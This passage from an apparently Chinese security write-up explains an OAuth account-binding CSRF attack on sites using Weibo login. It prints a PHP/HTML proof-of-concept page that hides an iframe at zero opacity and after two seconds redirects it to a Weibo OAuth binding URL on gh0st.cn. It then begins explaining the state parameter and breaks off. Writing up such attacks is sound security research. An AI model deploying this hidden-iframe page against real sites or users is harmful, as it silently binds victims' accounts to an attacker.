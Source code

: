 ```php+HTML
?>

<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style>
</head>
<body>
<div class="testframe">
	<iframe id="test0" src="<?php echo $url;?>"></iframe>
</div>
<script>
function loadsrc(){
    document.getElementById("test0").src="https://gh0st.cn/oauth/weibo/redirect";
}
setTimeout("loadsrc()",2000);
</script>
</body>
</html>
```

#### 场景2.攻击步骤：

有些网站可能是post请求限制了referer或者根本没有跳转的请求而是直接进入了微博的绑定界面，因为state参数的原因导致根本无法以这个绑定页面为链接的形式去做攻击~

可能有很多朋友就有疑问了，为什么我老是提到state参数？这个参数是干什么用的呢？这里参考下微博的OAuth2.0接口的开发文档：

http://open.weibo.com/wiki/Oauth2/authorize

![0x09.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x09.png)

是防止CSRF的，也就是说在这里如果绑定的链接是如下这样子的：

![0x10.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x10.png)
